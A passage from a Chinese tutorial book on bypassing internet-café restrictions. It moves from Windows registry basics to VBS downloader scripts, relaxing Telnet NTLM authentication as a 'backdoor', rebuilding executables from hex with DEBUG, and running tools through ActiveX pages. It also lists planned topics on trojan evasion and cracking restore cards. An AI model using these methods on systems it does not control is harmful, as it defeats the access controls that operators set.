我们可以从对话框对比出它和 `REG_SZ` 的不同，如图3-2-10。

## 3.3、注册表应用

都说学以致用，任何事物如果没有利用价值，那学习它是毫无意义的。本节将讲解一些注册表的实际应用，让大家对注册表的操作有个入门，然后你就可以自己去摸索了。

首先要注意的是，修改注册表，尤其是对于一个新手来说，对系统是非常危险的。任何误操作都可能导致系统崩溃或者无法启动。在 Win98 下，我们可以直接备份注册表，而 WinXP 却没有提供这个功能，所以你修改注册表要十分小心。这里提供一种恢复注册表的方法：在计算机的启动过程中按 F8 键，在“Windows 高级选项菜单”中选择“最后一次正确的配置”。

但这个方法只能还原注册表项 `HKLM\System\CurrentControlSet` 中的信息，其他注册表项中的更改均保持不变。这个选项是从问题（如新添加的驱动程序与硬件不相符）中恢复的一种方法，但它不能解决由于驱动程序或文件被损坏或丢失所导致的问题。

## 3.3.1、注册表编辑器的功能

### a、查找和收藏

首先我们确定某个软件的配置信息出现在注册表中，比如 telnet 的配置。但是具体在哪个位置我们不知道，这时候我们就可以使用查找功能。在“编辑”菜单下，默认热键是 `Ctrl+F`。在“查找目标”中输入 telnet，注册表编辑器就会搜索所有包含有“telnet”的字符串。

找到后可以定位到：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\TelnetServer`。如果路径较长难记，可以使用“收藏夹”功能：先选中目标项，再在“收藏夹”菜单下选择“添加到收藏夹”，写入便于理解的名称即可。

### b、注册表的远程连接功能

在 NT 系统中，`regedit.exe` 可以进行远程管理。它依赖 IPC 共享通道，并且依赖服务 `Remote Registry`，同时需要具有管理员权限。满足条件后，可通过“文件”菜单中的“连接网络注册表”命令连接远程电脑上的注册表。

### c、注册表键的权限设置

权限是 NT 系统的特色功能。注册表各项同样可以设置访问权限。默认情况下管理员对大部分键有完全控制权限，某些键（如 SAM）会拒绝管理员访问。可在权限对话框中设置允许/拒绝以及应用范围。

设置权限的特权，要不系统谁管啊！系统分配的权限有完全控制和读取，如图3-3-3。我们可以通过“高级”选项卡对指定用户设置更为精细的权限，如图3-3-4。通过对用户设置权限，可以很好地达到保护注册表的目的，避免其他用户的误操作导致不必要的损失。要指出的是，`regedit.exe` 虽然是16位的应用程序，但是它同样具有权限设置的功能。我的系统是 Windows XP Professional SP2，也许一些较低版本的系统不支持吧！

### d、注册表项的导入和导出功能

注册表编辑器提供了注册表项的导入和导出功能，导出的脚本文件以 `.reg` 为扩展名。这里主要讲解一下注册表脚本的编写。打开一个文本文件，在里面写：

- 第一行为 `Windows Registry Editor Version 5.00`，必须大写。如果是 Win98 的话，这行要写 `REGEDIT4`；
- 第二行为空行；
- 第三行使用中括号括起子键分支，比如 `[HKEY_LOCAL_MACHINE\Software\Super Rabbit\MagicSet]` 就是一个子键分支；
- 剩下的部分就该写该键下的数据了，比如 `"ColorTable00"=dword:00000000`。

图3-3-5是一个注册表脚本文件的示例，它包含了五种基本数据类型。

你应该自己导出一些注册表项用作研究 reg 文件的结构和用法。使用注册表的导出功能可以达到备份某个项的目的。比如你想修改注册表的某个项或键值，又怕出错，这时候你就可以先把该项导出为注册表脚本。当你修改完后发现真的修改错误了（哈，先见之明啊！）或者想要恢复设置，只要把导出的注册表文件导入就可以了，这也可以算作一种备份注册表的方法了。

注册表脚本还有一种用途：Windows 的一些程序会记录我们的一些历史信息，比如 IE 浏览过的地址或者是“运行”中输入过的关键字。当我们不想让这些信息透露给别人时，就需要清空它，也就是删除那个项下的所有数据。每次重复删除的操作非常麻烦，这时候我们就可以把那个键的空实例导出，在每次想要清空我们输入信息的时候导入刚导出的脚本就 OK 了，方便吧！

## 3.3.2、注册表修改实例

本节笔者将用几个注册表修改实例演示如何修改注册表。其实个人认为修改注册表没有多危险，也许是我不经常去碰系统的一些参数设置吧，而那些东西确实是我们不经常接触的。有一点操作注册表经验的朋友不妨自己修改键然后观察效果，很有意思的，我这里只做个引导。

### a、回收站重命名

大家都知道 Windows 自带的回收站是不可以像平常那样改名的，它的快捷菜单上没有“重命名”的选项。那不能玩个性了吗？答案当然是否定的，我们可以通过修改注册表来重命名回收站。来到这个键下：`HKEY_CURRENT_USER\Software\Microsoft\Windows\ShellNoRoam\MUICache`，在右边的窗口中可以看到一个数值名称为 `@C:\WINDOWS\system32\SHELL32.dll,-8964` 的 `REG_SZ` 值，它的数值是“回收站”。我们只要把数据数值改为我们想要的名字就可以了，如图3-3-6。

也许你发现了，这个键下还有很多 Windows 程序的名称，那么……是的！修改它们就可以重命名对应项目！比如我将 `@shell32.dll,-21761` 的数值名由“附件”改为“附件6”，然后你去开始菜单看，是不是变了？哈，好玩吧！这里我还发现一个有趣的现象，虽然它的名称变成了“附件6”，但是在浏览器的路径上却还显示的是“附件”，如图3-3-7。

### b、Windows XP 防火墙配置信息

Windows XP 自带了一个防火墙程序，用户可以在控制面板中配置并启动它。该防火墙的配置信息在注册表的这个键值下：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile`。它有两个 DWORD 值：`EnableFirewall` 和 `DoNotAllowExceptions`。前者用来控制防火墙启动与否，数值 1 为启动，0 为关闭。后者用来控制是否允许例外，如图3-3-8。0 为允许，1 为不允许。例外就是所谓的“白名单”，即允许的程序列表，我们可以在“例外”选项卡中添加和删除程序与端口。

## 二、注册表之剑——惩罚网吧限制

这个白名单的程序和端口列表分别对应的是上面项下的 `AuthorizedApplications\List` 和 `GloballyOpenPorts\List`。在 `AuthorizedApplications\List` 下，有一个名称为 `C:\Program Files\Messenger\msmsgs.exe` 字符串值，它的数据数值为 `C:\Program Files\Messenger\msmsgs.exe:*:Enabled:Windows Messenger`。里面的数据以“:”为分隔符。第一部分指明了要操作的程序路径及名称；第二部分代表作用范围，如图3-3-9；“*”代表任何计算机，“LocalSubNet”代表本地子网（仅我的网络）；第三部分表示允许与否，“Enabled”和“Disabled”分别表示允许和禁止；第四部分表示对象名称。端口的注册表键值设置和程序的大致相同，它的第一部分为端口号，第二部分为协议类型，有 TCP 和 UDP 两种，后面的部分同上。微软直接将防火墙的配置信息明文保存在了注册表中，这对安全有较大影响。

### c、telnet 配置

telnet 是微软提供的标准远程登录工具，它通过命令行模式管理远程计算机，因此也常常被利用。Telnet 的配置信息保存在注册表中，很多远程开启 Telnet 的工具会通过 IPC 等方式修改注册表实现。实际所谓“开启后门”常见做法之一就是修改 NTLM 的验证方式。NTLM 常见取值有 0、1、2：0 表示不使用 NTLM 验证，1 表示优先使用 NTLM，失败再使用密码验证，2 表示只使用 NTLM。Telnet 默认配置常见为 NTLM=2，因此即便扫到 23 端口与弱口令，也未必能登录。将 NTLM 修改为 0 或 1 可降低限制，常见方式是通过注册表编辑。

NTLM 验证的键位于 `HKEY_CURRENT_USER\Software\Microsoft\Telnet`。其中包含名称为 `NTLM` 的 DWORD 值，其数据数值即为验证方式，可设为 0、1、2。很多远程开启 TELNET 的工具就是通过修改这个键值来达到目的。

Telnet 在 Windows 中作为一个服务存在，因此它还存在于 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TlntSvr`。该键下有名为 `Start` 的 DWORD 值，控制 Telnet 服务的启动类型：自动为 2，手动为 3，禁用为 4。Telnet 的其他配置信息则保存在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\TelnetServer\1.0`。

- `DefaultShell`：代表登录系统后连接的 Shell，默认为 `CMD`。
- `LoginScript`：登录系统后显示欢迎界面的脚本文件路径，默认常见为 `C:\WINDOWS\system32\login.cmd`。

```bat
@echo off
rem
rem Default global login script for the Telnet Server
rem
rem In the default setup, this command script is executed when the...
rem Initial command shell is invoked. It, in turn, will try to invoke
rem the individual user's login script.
rem:
echo *
echo Welcome to Microsoft Telnet Server
echo ================================================
cd /d %HOMEDRIVE%\%HOMEPATH%
```

`%HOMEDRIVE%\%HOMEPATH%` 是环境变量，代表当前登录用户的“我的文档”目录。  
`TelnetPort`：当然就是 Telnet 使用的端口了，默认为十进制的 23。  
通过对 `DefaultShell` 和 `LoginScript` 的编辑，我们不仅可以自定义登录程序和欢迎界面，或者加一个批处理让它自动完成一些工作，还可以保护自身不被黑客从 Telnet 进入你的系统，比如把 `DefaultShell` 的数值改成一个不存在的程序。而修改端口号也是常用的安全防护的基本方法。

除了对一些比较大型的系统或软件进行配置外，注册表中还保存了一些比较分散的、相互无关的小块信息，比如在 **`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths`** 下你可以看到所有安装过的 32 位程序名称以及位置。更多东西有待读者自己去发掘，这里只做简单介绍。如有朋友对注册表感兴趣，请参阅相关专业书籍。

## 3.4、小结

本章就到这里，目的在于让广大网吧的朋友从本质上了解这些限制，同时结合组策略这个更为直观的注册表修改工具的策略进行讲解，最后对注册表编辑器进行了一些简单的介绍。这个学习过程就是从基本的网吧限制的破解开始，最后上升到了黑客必须掌握的基础知识——注册表，这便是本书主旨的体现，以后的章节都将遵循这个原则进行讲解。可以说组策略和注册表是不可分割的两个实体，在网吧中前者扮演着越来越重要的角色，关于它们二者还有很多的东西，这些留给大家自己去探索了。本章内容的手工操作比较多，大家多多练习使用组策略和注册表编辑器两个东西，将会发现更多的东西，而破解网吧限制自然不在话下了。光盘中笔者收录了一些注册表相关工具，希望对大家有用。

## 第二章

## 网吧破解技术大全

## Intro

网吧全套包（简要提要）

- 利用 VBS 脚本突破网吧下载限制
- 利用 Internet 缓存突破网吧下载限制
- 命令行下突破网吧下载限制的方法
- 制作在线运行的应用程序
- 利用 IE 突破网吧对硬盘的禁止访问、隐藏限制
- 利用“运行”突破网吧限制
- 可以在“运行”中直接输入名称就可以执行的程序汇总
- 利用网吧常见软件进行破解
- Windows 快捷键汇总
- 各控制面板项目名称与文件名对应汇总
- 各控制面板项目的功能与破解利用
- 执行控制面板项目的命令汇总
- 利用 CHM 帮助文件进行网吧破解
- 利用对象包装程序执行命令
- 利用 NetMeeting 在网络上传送文件
- 利用 VBS、JS 脚本执行程序
- 利用 VBS、JS 脚本对注册表进行读取、添加、删除等操作
- Inf 文件的语法
- Inf 文件对文件以及注册表的操作
- 利用 Inf 文件破解网吧限制
- DLL 文件相关知识
- DLL 文件的修改和限制突破
- 笔者收集的比较有用的 DLL 文件的菜单和对话框信息
- Windows 文件保护的相关知识
- 远程控制程序 Rmtsvc 的使用
- 利用注册表实现启动的方法
- 如何自己制作一个系统服务
- 微软自带的制作安装包的程序 IExpress 的用法
- Autorun.inf 文件的详细语法
- Autorun.inf 失效和生效的解决方案
- 冰点还原的介绍与破解
- 还原精灵的道具破解与手工破解（密码破解）
- 还原卡破解相关
- 绕过还原卡实现自启动的巧妙方法
- 利用道具简单实现木马免杀
- 如何修改木马的图标
- 如何修改木马的创建日期

通过修改注册表解除限制算是最原始的方法了，因为那时操作系统多为 WIN98，系统提供的软件和网吧提供的服务都相对较少，极少有第三方软件可以被我们利用。直接操作注册表的缺陷在于误操作可能带来系统崩溃，并且记忆一个注册表路径、键值以及数据数值也是相当困难的，有一部分设置还必须重启 `explorer.exe` 才可以生效。

自 2004 年以来，国内网吧业发展势头迅猛，网吧业主纷纷更换新操作系统，增加新软件以提供更好、更多的服务。网吧的改革也使我们发现了限制破解的新大陆，而时至今日我们在破解限制的时候大部分还是使用这些“另类”方法。细数这些方法，对比与思考后，发现它们都是利用了计算机系统的一个特性：多接口操作。举一个最简单的例子，关闭一个应用程序可以有几种方法？

- 可以点击应用程序窗口右上方的 X 按钮；
- 点击“文件”菜单选择“关闭”命令；
- 双击边框左上角的控制菜单按钮；
- 使用 `Alt+F4` 快捷键；
- 使用 `Ctrl+W` 快捷键。

还有呢？当然，你可以使用任务管理器，当然我们也可以使用命令行下的 `Taskkill` 了。也许还有，但是这里就说这么多，仅“关闭”就可以有至少七种方法，而其他的一些操作不也都是如此吗？我想微软这样设计是出于两个目的：一是提供满足不同用户喜好的操作方式；二是为了应对系统出现错误而无法执行某操作的情况，尽可能把用户损失降低到最小。

我们使用 Windows 操作系统，微软的这种设计无疑给网吧管理软件生产厂商造成了相当大的困难，而同时也给黑客登上“光明顶”开辟了更多的路径。在网吧破解方面，就操作注册表而言，至少有四种方法，那我们为什么非要去打开注册表编辑器或者导入注册表脚本呢？关键就在于你是否掌握了其他的操作方法。尽量多地掌握同一种操作的方法，不仅会使你在破解的道路上更加顺畅，而且会让你对 Windows 加深理解！

本章的内容就是基于这种多接口思想或类似的思路特意编排的，意在使限制破解更加简便、方便，也更有趣（呵呵，它能满足你不同方式的破解喜好）。最终让读者对操作系统的工作机制有一定程度的理解。这些利用方法是笔者已发现的只针对一部分限制的，其他限制在前面破解的基础上只要使用某些工具就可以轻松解决，所以不会再提到。我们重视思路与方法，利用工具没有错，但若不想止步，深入研究是不可少的。下面让我们进入本章的学习吧！

## 测试环境 Windows XP Professional SP2

## 1、下载者天堂

网络是为共享而生的，下载就是我们共享他人资源的重要途径。它让我们可以免费获得几乎一切，这正是下载的魅力所在。曾喜欢下载各种东西，所以深知网吧禁止下载后大伙的心情。本节为像我一样热爱下载事业和希望突破下载限制的朋友准备，打造无下载限制的天堂！

## 1.1、VBS 出奇招

这是一种（或者说一类）笔者认为最为简单的方法，也最为有效。在网吧中所谓的下载限制就是修改了注册表，在 IE 图形界面下禁止了下载，但是并没有阻止通过其他“通道”来下载文件，后面的方法也大多是利用这点的做法。利用脚本是一种比较早期的方法了，它直接获取的是要下载的文件地址，然后加入必要的代码，最后执行这个脚本文件，也算是命令行的一种方式。它自然无图形界面了，所以可以顺利地绕过下载限制下载文件。在 Windows 下常用的脚本除了批处理外，就要属 VBS 和 JS 了，让我们来学习如何编写 VBS 脚本实现下载。

> **【什么是 VBS，什么是 JS】**  
> VBS：Visual Basic Scripting，全称 Microsoft Visual Basic Scripting Edition，是微软开发的一种功能强大的脚本编程语言。它为各种环境提供有效的脚本编写手段，包括 Microsoft Internet Explorer 中的 Web 客户端脚本编写及 Microsoft Internet Information Services 中的 Web 服务器端脚本编写。  
> JS：JScript，它是微软专门为 Internet 而设计的脚本编程语言，和 VBS 很像。  
> VBS 和 JS 脚本的运行都要依靠 Windows 脚本宿主，它有 Windows 和命令行下两个版本，分别为 `wscript.exe` 和 `cscript.exe`。前者提供用于设置脚本属性的属性单，后者提供用于设置脚本属性的命令行开关。通过在命令提示符下键入 `Wscript.exe` 或 `Cscript.exe` 可以运行其中某一个。首先给出 VBS 代码，单引号后面为注释部分。

```vb
Set xPost = CreateObject("Microsoft.XMLHTTP")
xPost.Open "GET","http://localhost:114/notepad.exe",0  ' 第二个双引号内的地址为你要下载的程序地址
xPost.Send()
Set sGet = CreateObject("ADODB.Stream")
sGet.Mode = 3
sGet.Type = 1
sGet.Open()
sGet.Write(xPost.responseBody)
sGet.SaveToFile "fornever.exe",2  ' 双引号中的文件名为保存的文件名，可以指定路径
```

将上面这些代码写入一个记事本，然后保存为一个以“.vbs”为后缀的文件，双击执行就可以了。这里我自己搭建了一个 Web 环境，地址是 `http://localhost:114/notepad.exe`，要下载的程序是记事本 `notepad.exe`。由于是本地，只等了大概 0.1s，程序就出现在这个 vbs 文件的同目录了。

如果你觉得每次要下载不同的东西，再打开这个 vbs 文件麻烦的话，我们可以稍微改下代码，让这个 vbs 脚本可以带参数运行，这样就方便多了。OK，来看代码：

```vb
on error resume next  ' 忽略错误
iLocal=LCase(Wscript.Arguments(1))  ' 声明本地保存文件的参数为第二个参数
iRemote=LCase(Wscript.Arguments(0)) ' 声明程序地址的参数为第一个参数
Set xPost=createObject("Microsoft.XMLHTTP")
xPost.Open "GET",iRemote,0 ' 使用第一个参数得到要下载的程序地址
xPost.Send()
set sGet=createObject("ADODB.Stream")
sGet.Mode=3
sGet.Type=1
sGet.Open()
sGet.Write xPost.ResponseBody
sGet.SaveToFile iLocal,2 ' 使用第二个参数得到要保存到本地的文件名
```

脚本中的几个重要语句我已经讲解了，下面让我们来看这个脚本的使用方法。

命令格式为：`cscript.exe down_parameter.vbs 下载地址 保存到本地的文件名（可带路径）`

因为需要带参数，所以要在命令行下运行这个脚本程序，所以得调用命令行的脚本宿主程序 `cscript.exe`。`down_parameter.vbs` 是我们保存的 vbs 文件。这样利用，如图1-1-1。

### 1.2 Internet 缓存——尘封记忆

> 【什么是缓存】

我们通常听到缓存、缓冲区等，其实这两个概念基本表达了同样的意思。举个通俗的例子，它们就像我们家里的仓库一样，它可以存放米面粮油等日常要用到的物品。我们要使用的时候只要从仓库取就好了，不必再到商店去买。而现在在计算机领域可以是内存、硬盘或者网络上的一台计算机，我们从商店买东西就像从以上这些地方获得数据一样，只不过不用联网。这里商店就代表我们要下载的程序所在的网站，而商品就是要下载的东西。我们在使用 IE 浏览一个网站的时候，它会把该站的一些元素，比如网页、图片等保存到本地硬盘的一个目录里，以便再访问的时候获得更快的速度，而这个目录就是 IE 的缓存了。除了 IE 有缓存外，CPU 的硬件也是有缓存的，它们的存在是为了提高访问数据的速度。

我们明白了什么是缓存，来看 Internet 缓存的位置（即 Internet 临时文件夹）：

```txt
C:\Documents and Settings\CurrentUser\Local Settings\Temporary Internet Files
```

其中 CurrentUser 为当前登录的用户名。缓存目录可能隐藏，我们可以通过文件夹选项选择“显示所有文件和文件夹”来让它显形。另外在“Internet 选项”的“常规”选项卡中我们可以看到“Internet 临时文件”，点击设置，如图 1-2-1。

我们可以看到临时文件夹的当前位置，通过“移动文件夹”可以指定临时文件夹的位置，通过“查找文件”可以进入缓存目录。你会发现里面有好多的文件，这些文件都是你在访问网络上存在的一个 URL 时自动下载的，禁止下载对这个是无效的。


#### 1.2.1 双塔奇兵

- a、Microsoft Office

现在很多稍微专业的网吧都会提供 Word 等 Office 组件供客户使用，这些 Office 组件都有一项新功能——可以直接打开网络上的一个对应文件，如图 1-2-2。

在打开文件的地方，Word 会提醒用户可接受的输入为文件名或者网址地址。首先我们不要管它文件类型是否符合，在“文件名”里写 `http://localhost.114/notepad.exe`，然后点“打开”。如果你的机器快的话，马上就会看到一个文件转换的对话框，如图 1-2-3。


因为我们要下载的程序并不是 Word 可接受的类型。不用管这个对话框，因为在临时文件夹中已经下载得到 notepad.exe 了，接下来就是去临时文件夹中运行它咯。

除了 Word 外，Excel、Access 等其他几个 Office 组件也是可以利用的。我的 Office 版本是 2003，其他版本是否有这个功能还有待读者自己去实践。


- b、媒体播放程序

网吧会提供观看电影的服务，也有可能在本地搭建一个音乐服务器放些歌曲供客户听。这样就缺少不了媒体播放程序，经常使用的有千千静听、Windows Media Player、暴风影音 Mplayerc、Winamp、RealPlayer 等。这些程序在打开的时候都是支持网络上的媒体文件播放的，你可以在打开菜单中看到类似“打开本地文件”或者“打开 URL”的命令。

有些播放器程序在使用“打开 URL”的时候会首先检查网络文件的后缀，如果是不支持的文件类型则直接拒绝播放，比如 Windows Media Player。有些程序不会检查。但是好的是利用“打开本地文件”我们同样可以打开一个 URL（RealPlayer 就不可以），只不过它不会正常播放罢了，给你个错误提示，这个我们是不关心的。

好了，既然网吧禁止了下载，那么没有关系，先确认你要下载程序的 URL，然后打开某个媒体播放软件，选择“文件”菜单的打开命令，在文件名处直接粘贴你要下载程序的 URL，然后点打开就可以了。通常情况下程序的标准打开对话框都会出现一个短时间的假死，如图 1-2-4。


假死过后会出现类似“无法识别文件扩展名”的提示，我们都不理会它们，这时候去临时文件夹中查看文件，jsvbs.zip 文件已经静静地躺在那里了。注意可能有同名的两个文件（表面相同，实际上是不同的），把其中一个复制出来，因为在缓存中不可能打开文件，这时候这个文件就可以使用了。如果你把两个文件都复制出来，你会发现它们的名字是不同的，加了 [2]、[3] 的后缀呢！

值得一提的是，我们可爱的暴风影音还带有命令行参数，如果你在资源管理器中（图形界面模式下）无法运行暴风影音的话，可以在 cmd 下进入暴风影音的目录，一般在系统盘 Program Files 目录的 Ringz Studio\Storm Codec 目录，使用 `mplayerc http://localhost:114/notepad.exe` 会得到和上面同样的效果，这给我们运行影音播放器程序又提供了一条途径。

#### 1.2.2 得到什么

在实验过上述两类软件后，我又测试了其他一些程序，然后就有一种“网吧下载限制破解的汪洋大海中”的感觉！不仅仅是前面提到的那些程序，即使是记事本或者是写字板，都可以使用“打开”命令在 Internet 的缓存中获得指定文件，进而扩展到 Windows 中几乎所有可以打开一个文件的程序，这些程序不全都是具有网络功能的！

可是为什么会这样呢？其实这正体现了 Internet 缓存的作用。Windows 有这样一种内建机制，当一个不具备网络功能的程序试图从网络上打开一个文件的时候，Windows 就自动把这个程序下载到本地，然后再由程序打开，而 Internet 缓存正充当了保存下载那个文件的角色。所以不仅仅是 IE 或者其他可以访问网络的程序才可以产生缓存文件。这里的下载不同于我们平常接触到的下载，是在后台实行的，所以通常的那种方法是无法阻止的。

需要注意的是，利用缓存的这种方法有时候不会成功，出现程序不响应是其中最常见的一种，这时候程序不会被下载到本地。这取决于你要下载的程序大小、本地和 URL 中主机的连接速度以及本地使用程序的稳定性。我们一般选择文件相对小的程序下载，连接速度要快，本地打开的程序要稳定，像记事本程序就经常挂掉，这时候使用一些稍微大型些的程序也许就会成功了。

这里告诉大家一个小技巧，独家发布哦！相信很多朋友都感到平常下载 MP3 时很不方便，得到的链接不知道是否有效，而且速度不稳定，还有联网自身的问题，几经周折才能下载几个歌，很不痛快。其实我们利用 Internet 缓存就可以得到音频文件，一些音乐网站在线播放歌曲的时候会边播放边把音频文件下载到本地的 Internet 缓存中。我有次还纳闷都掉线了怎么还能听歌，于是便发现了这个方法。像“好听音乐网”（www.haoting.com），不论是网通还是电信连接速度都很快，相信很多朋友都已经知道这个站了。好听音乐网保存的音频格式是 WMA，在试听一首歌曲一段时间后你就可以在 Internet 缓存中发现这个歌曲的 WMA 文件了。这样的话我们就可以在第一时间获得新歌的音频文件了，呵呵爽吧！

### 1.3 命令行初露锋芒

笔者在试用 mt.exe 这个程序的时候无意中发现，禁止下载后在命令行方式下仍然可以使用程序传输文件。前面说过下载限制只针对图形界面，所以对命令行下的下载它同样无法阻止，这也就开辟了一条新的破解下载限制的道路。本节将分两个部分讲解命令行下的下载方法。还等什么，Follow Me!

#### 1.3.1 MT——浓缩是精华

多接口？除了图片可以传送，还有什么可以不被限制呢？都说图像、声音、文字，对文字！严格地说是字符串。我最初的这个想法是使用 mt.exe 这个工具的时候，看到它有一个下载的参数，后来就发现即使禁止了下载，从命令行下还是可以传输文件的。但前提是首先我们得得到这个工具，并且这还没有考虑获得 CMD 的问题。如果不用 MT 的话，大不了我们自己写一个命令行下载程序，不过哪里有网吧给你提供编译器的啊！高级语言是没有，不过 Windows 自带了一个简单的汇编环境 DEBUG，它是命令行程序，可以作为一个简单的汇编环境使用。当然你使用它写一个下载程序，我不反对，不过这样会很费时间不是吗？在网吧消费可是很贵的！直接使用写好的代码吧，文字不是可以传送吗？就是这样，但是汇编对于初学的朋友来说太不友好了，所以我教大家简单的方法。

首先我们要做好前期工作。这项前期工作的目的就是生成包含你要运行的程序的一种形式代码，然后把它传到网上。到了网吧破解的时候只要复制代码然后编译，就可以获得我们想要的程序了，过程就是这样的。而重点在于要生成一种什么样的代码到时候编译起来才够方便呢？呵呵我已经想好了，我们还是使用十六进制表示一个文件，因为 DEBUG 命令可以将十六进制代码还原成一个文件。而生成的代码量将是非常大的，所以这里要使用批处理让计算机帮我们批量处理每行十六进制代码。批处理的概念如果不理解可以先不用理会，后面将会讲到，这里只要操作就可以了。好了，下面看我们如何制作这个 EXE 代码文件。

要用到一个工具 exe2bat.exe，从名称我们就可以看出这个程序的作用了——将一个 exe 文件转换成一个 bat 批处理文件，转换后我们就可以使用记事本打开这个批处理文件复制代码了。这是个命令行下的工具，使用时首先要打开命令提示符。在当前目录新建一个文本文档，然后打开文件，在里面输入 CMD，然后文件另存为 xx.bat。然后双击 xx.bat 就可以打开命令提示符了。

exe2bat 的用法，如图 1-3-1。

这里转换的是 mt.exe，因为它体积较小，只有 40K，我在使用 exe2bat 转换一些稍微大的程序时它直接出错拒绝服务。这个东西虽然有用可是我还是不得不说它极不稳定。转换完成后在当前文件夹就会生成一个批处理文件了，这里是 mt.bat。


接下来右键单击这个文件，选择“编辑”，就用记事本打开了这个批处理。注意文件最后有这样一些代码：

```txt
@echo e A0D0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00>>tvis
@echo e A0E0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00>>tvis
@echo e A0F0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00>>tvis
@echo rcx>>tvis
@echo.A000>>tvis
@echo n tvisGRAY>>tvis
@echo w>>tvis
@echo q>>tvis
```

这些代码使用 echo 命令将 DEBUG 还原十六进制代码时的命令写入 tvis 文件，接下来是这句 `@debug<tvis>nul`。

将 tvis 文件中的内容使用 DEBUG 命令处理并返回空（不返回任何信息），最后使用 ren 命令将生成的 tvisGRAY 文件改名为 mt.exe。

代码简单分析到这，下面将这些代码复制。使用 CTRL+A 全选内容，然后使用 CTRL+C 复制内容。进入你的邮箱，写信，信的内容直接 CTRL+V 粘贴代码即可。然后存草稿，如图 1-3-2。


前期工作就到这里，下面我们到网吧去玩！拜拜 N 分钟后，你打开了你的邮箱，找到刚才写的草稿，把代码全部复制下来。然后在本地新建一个文本文件……什么？无法新建，没有关系。打开 IE，随便进入一个站点，然后选择 IE 菜单栏的“查看”菜单，选择“源文件”，如图 1-3-3。

同样全选，清空内容，然后把那些代码复制进去。文件另存为一个扩展名为 .bat 的文件。GO ON！使用 IE“文件”菜单的打开命令，浏览文件，在文件名处写刚才保存的批处理文件，如图 1-3-4。


然后一路打开就可以了。这时候就在那个批处理文件的同目录生成了 mt.exe。破解工作基本完成了，来看 mt.exe 下载的参数：`mt -netget URL SaveFileName`，如图 1-3-5。

### 1.3.1 网吧破解新大道

你可以指定文件保存路径来绕过网吧的硬盘访问限制。图片是以前抓的，这里提供精锐网吧辅助工具 V5.6 的下载地址：`http://download.77169.com/soft/other/2006/jrwbfzgj.zip`。到此，一次网吧下载破解完成。再做一些补充，我们也可以使用 `wget.exe` 来下载程序，但该方法成功率较低，关键与程序体积有关。

> **【什么是 URL】**

URL 叫做统一资源地址，用来在 Internet 上唯一定位资源。它不仅可表示网站地址，也可表示网络中的具体元素（如 HTML 页面、图片等），通常是在基础地址后加路径和文件名。

#### 1.3.2 FTP——专业下载

FTP（File Transmission Protocol）是文件传输协议，是除 HTTP 外常用的下载协议。若下载地址形如 `ftp://www.xxx.com/dir/fox.rar`，即通过 FTP 传输。网吧限制下载时，FTP 方式通常同样会被限制，只是提示形式不同。


微软提供了通过命令行访问 FTP 服务器的方法，命令为 `ftp`。下面列出几个常用命令。

- **ftp Address Port**：登录到服务器，Address 可为 IP 或域名，端口可指定，不写默认 21。
- **ls**：列目录命令，列出当前目录文件和文件夹，类似 `DIR`。
- **cd**：切换目录；`cd ..` 返回上一级目录。
- **get**：从 FTP 服务器下载文件，保存到当前路径。


示例中登录了国外 FTP 服务器 `ftp.oregonstate.edu`，并在本地目录 `C:\Documents and Settings\Administrator` 下操作。登录提示中需要输入用户名，匿名登录可使用 `Anonymous`。


提示你输入密码，密码使用你的邮箱地址就可以了，注意这个是摸黑输入的。回车，当出现 `Login successful.` 就说明你成功登录了，如图 1-3-8。

这时候观察你找到的要下载程序的 URL，比如这里是 `ftp://ftp.oregonstate.edu/1/debian/debian/ls-lR.patch.gz`，我要下载一个名为 `ls-lR.patch.gz` 的压缩文件，因此我需要跳转几个目录。在 FTP 下输入命令 `ls`，就列出了网站根目录下的所有文件和文件夹，如图 1-3-9。

并没有 `1` 这个文件夹。然后我在 IE 下登录这个 FTP 服务器，发现好几个目录都是以快捷方式存在的。尝试进入 `debian` 目录，果然看到了 `ls-lR.patch.gz` 这个文件，路径也是相同的，如图 1-3-10。

于是我在命令行下输入 `cd debian` 进入 debian 目录，然后使用 `get ls-lR.patch.gz` 命令下载文件，如图 1-3-11。

当我们看到 `File send OK.` 后就代表文件下载成功了。这时候去 `C:\Documents and Settings\Administrator` 下看看，多了个文件吧！要注意的是，在 FTP 下的操作要快一些，不要让服务器有等待，否则它会自动断开连接的。本方法适用于需要使用 FTP 协议下载程序的朋友。

## 1.4 Active-X 在线

在上一章中我们简单了解了 ActiveX 这个东西，其实这个东西在网吧破解方面算是用得最多了。笔者最初在网吧 hacking 时还记得用百度搜索“在线破解还原精灵密码”，呵呵，让人怀念！那时候经常去的一个站就是 `www.cy07.com`，后来又碰到了世纪黑马，把这两个在线网吧破解的网站推荐给大家。这里的在线工具就要用 ActiveX 技术实现了，具体到工具最常用的就是 TegoWeb 了。TegoWeb 是一个利用 ActiveX 技术将你的软件集成到网页中的程序，它可以使你的网页具有更强的交互能力。我们可以利用它把自己喜欢的工具制作成网页，需要使用的时候打开一个网页就可以了，非常方便。而对于设备禁用 ActiveX 的网吧来说，在线工具简直就是一个噩梦！


程序的网页需要在本地制作好，然后传到网上。这就要求我们在网上有一个空间了。现在提供免费空间的网站很多，你随便去申请一个，上传文件的大小不要太小就好了。会了方法就可以，我这里还是本地搭建 WEB 来说明制作过程。

安装 TegoWeb，一路“下一步”安装完成，然后运行主文件，直接下一步到如图 1-4-1。

选择要制作的目标目录，这个目录就是包含了你要制作的程序的目录，注意这个程序必须是 EXE 文件。网站的地址就写申请空间时服务商给你的主页访问地址，我这里是 `http://localhost:114`，然后点下一步，来到如图 1-4-2。

这里选择你想要在网页上运行的程序，如果刚才选择的目录里有其他程序或者文件的话，要把它们前面的勾取消掉，只留下制作的程序。我这里制作的是精锐网吧辅助工具，只有一个文件，比较方便。然后下一步，这里要选择你在网页中首先要运行的程序，TegoWeb 会把其中的 Exe 文件定义为首先运行的。另外在这个对话框中可以设置程序运行所需的参数，精锐网吧辅助工具是不用参数的……


## 网吧破解第二十篇

用的程序需要参数的话，要在这里输入，这里我们直接下一步了。这一步比较重要，如图1-4-3。


